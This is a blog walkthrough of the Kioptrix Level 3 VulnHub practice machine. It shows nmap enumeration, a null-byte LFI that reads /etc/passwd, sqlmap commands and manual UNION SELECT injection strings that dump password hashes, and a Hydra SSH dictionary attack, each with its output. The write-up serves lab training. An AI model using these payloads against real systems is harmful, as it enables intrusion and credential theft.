 ```yaml
---
layout: post
title:  "Kioptrix Level 3 Walkthrough"
date:   2019-04-14 21:28:02 +0530
author: Kyle Simmons
categories: [vulnhub, vulnerable-machine]
---
```

Kioptrix level 3 vulnhub link below: <br>
[Kioptrix Level 3 download page]
<br><br>
<h2>1. Enumeration</h2>
A port scan reveals that only SSH and HTTP is open.
{% highlight shell_session %}
nmap -T4 -sV -A -oA nmapscan 192.168.0.71
Nmap scan report for UNKNOWN (192.168.0.71)
Host is up (0.0051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
{% endhighlight %}
<br>


<h3>1.1 SSH</h3>
SSH appears to not have any vulnerable versions. However, SSH could possibly have weak credentials.
<br><br>


<h3>1.2.1 HTTP</h3>
Dirb and Nikto is run in the background to check for any interesting pages or vulnerabilities. Dirb reveals
that there is an accessible <font color="red">phpmyadmin</font> page. The page can be logged in
using the username <font color="red">root</font> and the
password can be a random string. However, this did not really reveal anything and the default login has no privileges.
<br><br>
The login page reveals that it is powered by <font color="red">lotus</font>.
<br><br><br>
![Kioptrix level 3 lotus login](/assets/images/Kioptrix/Kioptrix3-lotus-login.png)
<br><br>
Using searchsploit, a vulnerability is found:
<br>
![Kioptrix level 2 lotus vuln](/assets/images/Kioptrix/Kioptrix3-lotus-cms-vuln.png)
<br><br>
This vulnerability is for remote command execution with metasploit. This can be used
to get a meterpreter shell on the target. Finding this exploit was too easy. However there are several
vulnerabilities on this machine.
<br><br>


<h3>1.2.2 HTTP - LFI</h3>
The URL appears to include files, this could possibly be vulnerable to LFI.
<br><br>
`http://192.168.0.71/index.php?system=Blog`
<br><br>
Using the following after system <font color="red">../../../../../etc/passwd</font> reveals nothing. However, with some research.
The OWSAP 'Testing for LFI page' reveals that when using PHP, a null byte terminator at the end of the file will
bypass it. When using the following:
<br><br>
`http://vulnerable_host/preview.php?file=../../../../etc/passwd%00jpg`
<br>
{% highlight shell_session %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
...............
...............
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
{% endhighlight %}
This shows the passwd contents which can used for brute forcing SSH. <font color="red">loneferret</font> and <font color="red">dreg</font> can be used to perform a
dictionary attack against them over SSH.
<br><br>
More info from OWASP here: [OWASP LFI testing]
<br><br>


<h3>1.2.3 HTTP - sqlmap (Easy SQL Injection)</h3>
<br>
When browsing the website, the gallery page has a button to filter by an ID. This appears to
be a form of retrieving data from the SQL database. Using the <font color="red">'</font> at the end of the ID, an SQL
error appears which is good news. The website is vulnerable to SQL. SQLmap is then used to check for the
databases:
<br><br>
`sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=">http://192.168.0.71/gallery/gallery.php\?id\= --dbs`
<br><br>
available databases [3]:<br>
<font color="red">gallery</font>---
<font color="red">information_schema</font>---
<font color="red">mysql</font>---
<br>
Three databases were revealed above. The gallery database could be the contents of
the images and users of the gallery. The database <font color="red">gallery</font> can searched next.
<br><br>
<font color="red">sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=">http://192.168.0.71/gallery/gallery.php\?id\= -D gallery --'tables'</font>

{% highlight shell_session %}
Database: gallery
[7 tables]
+----------------------+
| `dev_accounts`       |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+
{% endhighlight %}
<br>
A table of <font color="red">dev_accounts</font> is worth investigating, this could contain <font color="red">dev</font> accounts.. duh.
<br><br>
<font color="red">sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=http://192.168.0.71/gallery/gallery.php\?id\= -D gallery -T dev_accounts --dump</font>

{% highlight shell_session %}
Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+
{% endhighlight %}
<br>
The <font color="red">dev_accounts</font> results contain 2 usernames and 2 hashes which were easily
crackable with sqlmap.
<br><br>
<h3>1.2.4 HTTP - SQLI (without sqlmap)</h3>

Checking for the amount of columns by using <font color="red">ORDER BY</font>.<br>
<font color="red">id=2 union select 1,2,3,4,5,6</font>
<br><br>
Finding the database and tables using <font color="red">UNION SELECT</font>. This results in the database <font color="red">gallery</font> being shown. <br>
<font color="red">id=2 UNION SELECT 1, table_schema, table_name,4,5,6 FROM information_schema.tables--</font>
<br><br>
Searching inside the database gallery:<br>
<font color="red">id=1 UNION SELECT 1, table_name,3,4,5,6 FROM information_schema.tables WHERE table_schema = 'gallery'#</font>
<br><br>
The gallery table shows the dev_accouns table. The dev_accounts can then be searched for the columns.<br>
<font color="red">id=1 UNION SELECT 1, column_name,3,4,5,6 FROM information_schema.columns WHERE table_name = 'dev_accounts'#</font>
<br><br>
The columns reveal the 2 user accounts and there corresponding hashes. The hashes can then be cracked with
john the ripper.
<br><br>

<h2>2.1 Exploitation - SSH</h2>

The credentials fetched from the LFI attack can be run against a dictionary.<br>
{% highlight shell_session %}
hydra -t 6 -l loneferret -P 10k-most-common.txt 192.168.0.71 ssh
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking ssh://192.168.0.71:22/
[STATUS] 52.00 tries/min, 52 tries in 00:01h, 9948 to do in 03:12h, 4 active
[22][ssh] host: 192.168.0.71   login: loneferret   password: starwars
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}
<br>
The dictionary attack with Hydra above was successful and the password was revealed as <font color="red">starwars</font>. When attempting to login
to SSH with this username and password it is successful. When browsing files i found a configuration file in the gallery
directory which contains the mysql login which is <font color="red">root</font> and the password is <font color="red">fuckeyou</font>. This gives us full root access to
the database.
<h3>Pwned!</h3>

[Kioptrix Level 3 download page]: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/
[OWASP LFI testing]: https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
